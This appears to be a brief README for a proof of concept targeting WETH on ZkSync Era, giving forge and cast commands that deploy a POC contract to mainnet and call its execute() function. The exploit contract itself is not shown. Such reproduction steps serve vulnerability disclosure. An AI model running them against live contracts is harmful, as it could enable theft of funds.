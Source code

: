 ## ZkSync WETH Poc

Steps to reproduce:

1. (Optional) Deploy the contract to ZkSync Era:
   `forge create src/POC.sol:POC --rpc-url https://mainnet.era.zksync.io -i --broadcast --constructor-args 0x5AEa5775959fBC2557Cc8789bC1bf90A239D9a91`

2. Call the contract:

`cast call 0x5f472698c1D9A7E261E4079Be17297FeeBcbD6Fd "execute()"  --value 1 --rpc-url https://mainnet.era.zksync.io --trace`

If you deployed the contract, then replace `0x005C3E358a4029AbA21552c3CeE53E391673753E` with your address
